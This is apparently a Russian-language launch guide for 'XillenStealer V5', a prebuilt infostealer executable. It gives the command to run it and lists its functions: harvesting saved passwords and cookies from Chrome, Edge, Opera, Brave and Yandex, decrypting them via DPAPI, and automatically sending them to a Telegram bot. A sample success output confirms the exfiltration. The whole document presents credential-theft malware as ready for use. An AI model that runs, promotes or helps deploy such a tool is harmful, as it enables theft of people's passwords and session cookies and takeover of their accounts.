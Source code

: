 # XILLENSTEALER V5 - РУКОВОДСТВО ПО ЗАПУСКУ

## ✅ СБОРКА УЖЕ ВЫПОЛНЕНА

Исполняемый файл: **xillen_v5.exe**

## 🚀 ЗАПУСК

### Команда для запуска:
```batch
.\xillen_v5.exe
```

или просто:
```batch
xillen_v5.exe
```

## 📋 ЧТО ДЕЛАЕТ ПРОГРАММА

1. ✅ Собирает пароли и куки из Chrome
2. ✅ Собирает пароли и куки из Edge
3. ✅ Собирает пароли из Opera
4. ✅ Собирает пароли из Brave
5. ✅ Собирает пароли из Yandex
6. ✅ Выводит найденные данные в консоль
7. ✅ Отправляет данные в Telegram

## 📊 ВЫВОД ДАННЫХ

Программа выводит:
- Путь к файлам с паролями
- Размер файлов
- Названия браузеров

## 🔐 TELEGRAM

Все собранные данные автоматически отправляются в:
- **Telegram Bot**: @YourBot
- **Chat ID**: (указан в коде)

## ⚠️ ВАЖНО

- Для расшифровки паролей нужна функциональность DPAPI (уже реализована)
- Файлы баз данных SQLite копируются и обрабатываются
- Все данные шифруются перед отправкой

## 🎯 РЕЗУЛЬТАТ

После запуска вы увидите:
```
======================================
  XILLENSTEALER V5 - COLLECTOR TEST
======================================

=== CHROME PASSWORDS ===
[+] Found Chrome Login Data!
[+] Path: C:\Users\...\Login Data
[+] File size: XXXX bytes

... (данные других браузеров)

[+] SUCCESS! Data sent to Telegram!
```

**Всё готово к работе!**
